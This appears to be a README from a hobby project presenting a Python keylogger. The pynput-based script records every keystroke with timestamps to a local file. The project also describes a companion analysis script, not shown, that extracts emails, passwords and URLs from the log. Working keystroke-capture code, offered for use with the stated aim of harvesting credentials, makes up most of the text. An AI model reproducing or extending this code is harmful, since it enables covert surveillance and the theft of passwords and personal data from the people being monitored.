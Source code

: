 # Keylogger


## What is a keylogger?
This is a keylogger script to be able to log any key strokes. Then another script for analysis. This analysis script will detect and find any patterns that relate to emails, passwords, and URLs. As well as the most common word typed. Please read the Disclaimer to use properly.

<details>

'''python
from pynput.keyboard import Listener
import time
import os

# File to extract logs into
log_file = "raw_log.txt"

# Check if file exists, then creats/writes into the file. Extracting the time when the keylogger is activated
if not os.path.exists(log_file):
    with open(log_file, "w") as file:
        file.write("Keylogger started at: {}\n".format(time.ctime()))

# Function called with every key pressed, logs it into file with that current timestamp
def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key.char))
    except AttributeError:
        with open(log_file, "a") as file:
            file.write("{0} - {1}\n".format(time.ctime(), key))
        
        # Break zone, when esc key is entered, the keylogger stops
        if key == key.esc:
            return False

# Enables input from keyboard
with Listener(on_press=on_press) as listener:
    listener.join()

</details>'''

